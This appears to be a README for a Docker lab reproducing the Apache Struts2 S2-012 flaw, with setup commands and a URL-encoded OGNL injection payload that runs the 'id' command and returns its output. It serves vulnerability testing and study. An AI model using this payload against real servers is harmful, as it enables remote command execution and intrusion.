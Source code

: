 ### s2-012 vuldocker

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30080
```

```
poc:
%25%7B%23a%3D%28new%20java.lang.ProcessBuilder%28new%20java.lang.String%5B%5D%7B%22id%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D

```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/struts2/s2-012/1.png)

